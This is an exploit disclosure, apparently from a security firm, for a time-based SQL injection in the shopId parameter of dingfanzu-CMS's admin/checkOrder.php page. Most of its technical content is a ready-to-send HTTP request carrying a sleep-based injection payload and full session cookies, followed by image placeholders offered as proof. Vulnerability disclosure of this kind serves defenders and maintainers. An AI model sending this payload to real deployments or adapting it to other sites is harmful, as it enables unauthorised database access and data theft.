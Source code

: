 # dingfanzu-CMS checkOrder.php shopId SQL-inject

**Exploit Title: dingfanzu-CMS checkOrder.php shopId SQL inject**

**Exploit Author: webraybtl@webray.com.cn inc**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "checkOrder.php" shopId module, resulting in the generation of SQL injection.

The path to the vulnerability：http://127.0.0.1/admin/checkOrder.php?shopId=0002

    Payload used:

```
GET /admin/checkOrder.php?shopId=0002'+and+sleep(3)--+ HTTP/1.1
Host: dingfanzu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: adminId=16; adminName=liu; shopId=1000; Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1736094869; HMACCOUNT=74321D4C60CCF393; PHPSESSID=su7te2f8aq0m0hg3ukdbf7ouqm; places=%5B%7B%22shopId%22%3A%221000%22%2C%22shopName%22%3A%22%5Cu9f50%5Cu9c81%5Cu5927%5Cu53a6%22%7D%2C%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%5Cu6e56%5Cu5317%5Cu5927%5Cu53a6%22%7D%5D; userId=aaa1; shopInfo=%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%E6%B9%96%E5%8C%97%E5%A4%A7%E5%8E%A6%22%2C%22shopPhone%22%3Anull%2C%22shopTip%22%3A%22%E5%93%88%E5%93%88%22%2C%22shopState%22%3A%221%22%2C%22shopIcon%22%3A%221001.jpg%22%2C%22shopBlock%22%3A%22%3F%23A%23B%23%22%2C%22shopFloor%22%3A%22%3F%231%232%233%22%7D; cart1001=%5B%7B%22itemId%22%3A%221685431107987%22%2C%22name%22%3A%22%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu7092%5C%5Cu9e21%5C%5Cu86cb%22%2C%22count%22%3A1%2C%22price%22%3A%2211%22%7D%5D; myInfo=%7B%22userId%22%3A%22aaa1%22%2C%22paymethod%22%3A%220%22%2C%22pn%22%3Anull%2C%22name%22%3Anull%2C%22place%22%3A%22%22%2C%22block%22%3Anull%2C%22floor%22%3Anull%2C%22jifen%22%3Anull%2C%22email%22%3Anull%2C%22price%22%3A%220%22%2C%22orderArrivedTime%22%3A%221%3A30-2%3A00%22%2C%22orderRemark%22%3A%22%22%7D; cart0001=%5B%7B%22itemId%22%3A%221466524398193%22%2C%22name%22%3A%22%5C%5Cu5bab%5C%5Cu4fdd%5C%5Cu9e21%5C%5Cu4e01%5C%5Cu002b%5C%5Cu9e21%5C%5Cu86cb%5C%5Cu7092%5C%5Cu9ec4%5C%5Cu74dc%5C%5Cu002b%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu6284%5C%5Cu725b%5C%5Cu8169%22%2C%22count%22%3A1%2C%22price%22%3A%2215%22%7D%5D; shopId=1001; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1736099897
Connection: keep-alive


```



## Proof of Concept

The code does not validate the input data and does not use precompilation technology

![image-20250106015104794](dingfanzu-CMS%20checkOrder.php%20shopId%20SQL-inject.assets/image-20250106015104794.png)



Practical verification

![image-20250106021003686](dingfanzu-CMS%20checkOrder.php%20shopId%20SQL-inject.assets/image-20250106021003686.png)
